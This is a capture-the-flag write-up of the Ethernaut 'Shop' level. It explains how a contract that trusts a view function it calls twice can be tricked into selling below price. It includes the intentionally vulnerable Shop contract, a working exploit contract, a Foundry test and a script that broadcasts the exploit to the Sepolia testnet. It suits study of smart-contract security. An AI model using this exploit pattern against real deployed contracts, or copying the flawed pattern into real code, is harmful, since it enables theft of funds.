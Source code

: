 ## 👾 21. Shop

<br>


### tl; dr

<br>

* in this challenge we explore restrictions of `view` functions through an `interface`, similarly to level `11` for `Elevator`.
  - now, the goal is to find a way to buy items from a `Shop` contract for a lower price when compared to sold items.

<br>

* remember that a `view` function **[cannot modify the state of the contract](https://docs.soliditylang.org/en/v0.8.15/contracts.html#view-functions)**. 
  - for instance, it cannot write to state variables, create other contracts, emit events, send ether with `call()`, use any low-level calls, use `selfdestruct()`, call functions that `pure` or `view`, or use inline assembly with certain opcodes.


<br>
  
<p align="center">
<img width="300" src="https://github.com/go-outside-labs/ethernaut-foundry-detailed-solutions-sol/assets/138340846/2032b1e7-77f6-4481-8037-54031ebcb435">
</p>



<br>

```solidity
pragma solidity ^0.8.0;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
}
```


<br>

---

### discussion

<br>

* the first part of this contract is the `interface Buyer` that defines as `external view` function, `price()`, representing the amount of `wei` a `Buyer` must pay:
<br>

```solidity
interface Buyer {
  function price() external view returns (uint);
}
```

<br>

* then, in the `Shop` contract, we have two state variables:

<br>

```solidity
uint public price = 100;
bool public isSold;
```

<br>

* and a `public` function `buy()`, where the `price()` is being called twice. 
  - this is our vulnerability, as one should never trust external inputs (*e.g.,* coming from the `interface` implementation):

<br>

```solidity
function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
}
```

<br>

* in other words, `Shop` expects `Buyer` to return the price it is willing to pay to buy the item, believing that the price would not change the second time it called, as it is a `view` function.
<br>

* we will use this as our exploit, querying the value of `isSold()` and returning a different result based on our needs:
  - the first time `price()` is called, it returns `>100` to enter the loop.
  - then, the second time, it can return anything lower.


----

### solution

<br>

* we craft the following exploit at `src/21/ShopExploit.sol`:

<br>

```solidity
contract ShopExploit is Buyer {

    Shop private level;

    function price() external view returns (uint256) {
        return level.isSold() ? 0 : 1337;
    }

    function run(Shop _level) public {
        level = _level;
        level.buy();
    }
}
```


<br>

* check `test/21.Shop.t.sol` for testing this solution::

<br>

```solidity
contract ShopTest is Test {

    Shop public level = new Shop();

    address instance = payable(vm.addr(0x10053)); 
    address hacker = vm.addr(0x1337); 

    function setUp() public {
        vm.prank(instance);
    }

    function testShopHack() public {

        vm.startPrank(hacker);
        console.log(level.isSold());
        ShopExploit exploit = new ShopExploit();
        exploit.run(level);
        assert(level.isSold());
        vm.stopPrank();
        
    }
}
```

<br>

* running:

<br>

```shell
> forge test --match-contract ShopTest -vvvv    
```



<br>

* then, submit the solution with `script/21/Shop.s.sol`:

<br>

```solidity
contract Exploit is Script {
        
    address instance = vm.envAddress("INSTANCE_LEVEL21");  
    address hacker = vm.rememberKey(vm.envUint("PRIVATE_KEY"));   
    Shop level = Shop(instance); 
    
    function run() external {
        vm.startBroadcast(hacker);
        ShopExploit exploit = new ShopExploit();
        exploit.run(level);
        vm.stopBroadcast();
    }
}

```

<br>

* by running:

<br>

```shell
> forge script ./script/21/Shop.s.sol --broadcast -vvvv --rpc-url sepolia
```



<br>

----


### pwned...


<br>

  
<p align="center">
<img width="400" src="https://github.com/go-outside-labs/ethernaut-foundry-writeups-sol/assets/138340846/ba3f82a3-00c0-43f9-a423-588d7f6e4c70">
</p>



